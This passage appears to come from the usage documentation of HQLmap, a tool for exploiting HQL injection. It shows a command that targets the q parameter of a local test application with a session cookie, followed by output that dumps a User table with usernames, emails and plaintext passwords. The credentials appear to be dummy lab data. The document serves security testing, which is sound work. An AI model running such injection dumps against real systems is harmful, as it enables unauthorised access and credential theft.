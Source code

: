 ```
     - 3
[User]
  [Username]
     - bob
     - alice
     - admin
(redacted)
```

#### Specific table from database

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=83C59DCB04A6DC954E4E1EEC2BB36EF6" --T=User --columns --dump
```

And the output:

```
[User]
  [Id]
     - 1
     - 2
     - 3
[User]
  [Username]
     - bob
     - alice
     - admin
[User]
  [Password]
     - password
     - password
     - password
[User]
  [Email]
     - bob@continuumsecurity.net
     - alice@continuumsecurity.net
     - admin@continuumsecurity.net
[User]
  [Firstname]
     - Robert
     - Alice
     - Administrator
[User]
  [Lastname]
     - McBride
     - O&#39;Reilly
     - Reynolds
```

#### Specific column from database
